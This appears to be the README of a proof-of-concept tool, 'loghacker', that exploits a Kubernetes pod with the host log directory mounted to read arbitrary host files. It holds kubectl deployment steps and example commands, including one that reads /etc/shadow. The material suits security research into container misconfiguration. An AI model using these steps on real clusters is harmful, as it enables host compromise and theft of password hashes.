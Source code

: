 # mount-var-log-hacker

If /var/mount is mounted into a container, and the serviceaccount in the container has permission to read logs, the application in the container can read any file on the host.

binary name: loghacker

deploy steps:
```bash
# step 1: create ns and cluster role
kubectl apply -f hack/cluster-role.yaml

# step 2: deploy loghacker
kubectl apply -f hack/deploy-loghacker.yaml

# step 3: attach log-hacker
kubectl exec -it -n mount-log log-hacker -- bash

# step 4: 
./loghacker

# happy loghackerrrrrr

# ./loghacker ls /etc
# ./loghacker cat /etc/shadow

```